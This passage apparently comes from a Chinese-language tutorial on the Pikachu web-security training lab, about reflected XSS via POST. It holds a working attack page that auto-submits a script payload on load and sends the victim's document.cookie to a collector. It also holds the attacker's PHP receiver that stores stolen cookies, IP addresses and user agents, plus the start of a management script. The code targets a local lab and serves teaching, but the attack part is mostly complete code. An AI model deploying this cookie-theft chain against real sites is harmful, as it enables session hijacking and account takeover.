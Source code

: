    ```html
   <html>
   <head>
   <!-- 在网页加载完成后，自动触发 ID 为"postsubmit"的 HTML 元素的点击事件 -->
   <script>
   window.onload = function() {
     document.getElementById("postsubmit").click();
   }
   </script>
   </head>
   <body>
   <!-- 存在反射型 XSS 漏洞的页面地址：http://127.0.0.1/pikachu/vul/xss/xsspost/xss_reflected_post.php -->
   <form method="post" action="http://127.0.0.1/pikachu/vul/xss/xsspost/xss_reflected_post.php">
       <!-- 拟造 XSS Payload，将其作为待提交的表单 Payload  -->
       <!-- 值得注意的是：这个表单的 HTML 代码是根据漏洞页面表单代码而设计的哟 -->
       <input id="xssr_in" type="text" name="message" value=
       "<script>
   document.location = 'http://127.0.0.1/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;
    </script>"
     />
       <input id="postsubmit" type="submit" name="submit" value="submit" />
   </form>
   </body>
   </html>
   ```

2. `cookie.php`：黑客用于接收数据 Cookie 的代码，并将数据写入数据库：

   ```js
   <?php
   include_once '../inc/config.inc.php';
   include_once '../inc/mysql.inc.php';
   $link=connect();
   
   //这个是获取cookie的api页面
   if(isset($_GET['cookie'])){
       $time=date('Y-m-d g:i:s');
       $ipaddress=getenv ('REMOTE_ADDR');
       $cookie=$_GET['cookie'];
       $referer=$_SERVER['HTTP_REFERER'];
       $useragent=$_SERVER['HTTP_USER_AGENT'];
       $query="insert cookies(time,ipaddress,cookie,referer,useragent) 
       values('$time','$ipaddress','$cookie','$referer','$useragent')";
       $result=mysqli_query($link, $query);
   }
   header("Location:http://127.0.0.1/pikachu/index.php");//重定向到一个可信的网站
   ?>
   ```

3. `pkxss_cookie_result.php`：黑客用于管理接收到的数据：

   ```php
   <?php
   // error_reporting(0);
   include_once '../inc/config.inc.php';
   include_once '../inc/mysql.inc.php';
   $link=connect();
   
   // 判断是否登录，没有登录不能访问
   if(!check_login($link)){
       header("location:../pkxss_login.php");
   }
   
   if(isset($_GET['id']) && is_numeric($_GET['id'])){
       $id=escape($link, $_GET['id']);
   ```